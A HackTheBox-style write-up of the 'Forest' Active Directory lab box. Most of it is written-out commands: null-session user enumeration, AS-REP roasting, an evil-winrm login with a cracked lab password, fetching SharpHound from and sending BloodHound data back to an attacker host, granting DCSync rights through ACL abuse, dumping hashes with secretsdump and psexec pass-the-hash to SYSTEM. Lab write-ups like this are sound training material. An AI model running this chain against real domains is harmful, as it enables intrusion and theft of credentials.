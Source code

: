 ```yaml
---
layout: post
title: "Forest"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox, Active Directory]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```




as most  of boxes, I will start with nmap

```bash
sudo nmap -sC -sV -p-  -T4 10.10.10.161 -oN FOREST
``` 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522201952.png)
kerberos ,ldap ,smb, rpc   that's a DC but without DNS (port 53 ) which is weird for me

let's check null session against smb and ldap and rpc

ldap null session is allowed  
```bash
nxc ldap 10.10.10.161  -u '' -p ''  --users
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522202946.png

we can enumerate users with null session for ldap and rpc 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522203256.png)



let's create a wordlists and try `asreproasting`
```bash
rpcclient 10.10.10.161 -U  '' -N -c  enumdomusers | cut -d '[' -f 2 | cut -d ']' -f 1
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204005.png)


`asreproasting`
```bash
nxc ldap 10.10.10.161  -u users.txt -p ''  --asreproast asreproast 
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204136.png)

`hashcat` + rockyou.txt
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204214.png)

enumerate using `ldapdomaindump`
```bash
python3 ldapdomaindump.py --user 'HTB\svc-alfresco' --password s3rvice --outdir ldapdomaindump 10.10.10.161
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213314.png)

if we took a look on the user `svc-alfresco`
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213429.png)
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213602.png)

our  controlled user is member of the group `Remote Management Users`
so we can use `evil-winrm` to login
```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p s3rvice
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213808.png)

when I got creds , I tried `bloodhound-python` but that didn't work because of the stupid DNS (IT'S ALWAYS DNS!)
now I will use sharphound.exe
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214203.png)
on the windows box 
```bash
wget -Uri http://10.10.14.15/SharpHound.exe -Outfile SharpHound.exe
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214319.png)

```bash
.\SharpHound.exe -c all
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214543.png)

now we have bloodhound.zip files , let's move it to our machine , the easiest way  to do that is by hosting a smbserver using impacket

```bash
impacket-smbserver -smb2support share .
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214723.png)

```
move 20240522135040_BloodHound.zip \\10.10.14.15\share
``` 
and we should have the file on our machine 


now we could use bloodhound  
great article about setting up bloodhound  https://blog.spookysec.net/Deploying-BHCE/

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522221736.png)

 we could use `genericall` to add our user to the exchange group
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522221909.png)

```bash
net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "d0s3nt" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222023.png)
we could check using 
```bash
net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222059.png)

we can use `WriteDacl` to add ourself the necssary ACL to perform `DCSync`

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222628.png)
setting Up this tool was nightmare, I [fellow this](https://www.youtube.com/watch?v=O_VeRoT1f1k)
I found the [script here](https://github.com/ShutdownRepo/impacket/blob/04518279ef663e80195b61d4d864d6e9e8ac5d9f/examples/dacledit.py)

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222912.png)
nb : if it didn't work re run the net rpc command to add the user to the exchange groupe again
```bash
impacket-secretsdump HTB.LOCAL/svc-alfresco:s3rvice@10.10.10.161
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522223613.png)
using the hash we could get shell as SYSTEM using psexec

```bash
impacket-psexec HTB.LOCAL/administrator@10.10.10.161 -hashes: 32693b11e6aa90eb43d32c72a07ceea6
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522224115.png)


if we are in a real word scenario we could backtrack our modification by 
```bash
dacledit.py -action 'remove' -rights 'DCSync' -principal 'svc-alfresco'-target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'
```

when I was doing the box powerview function `Add-DomainObjectAcl` didn't work and hang on evil-wirm without response after watching ippsec , seems that the command on bloodhound graphing tool wasn't correct which is weird 

[this should work](https://burmat.gitbook.io/security/hacking/domain-enumeration-+-exploitation)
```bash
Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync
```
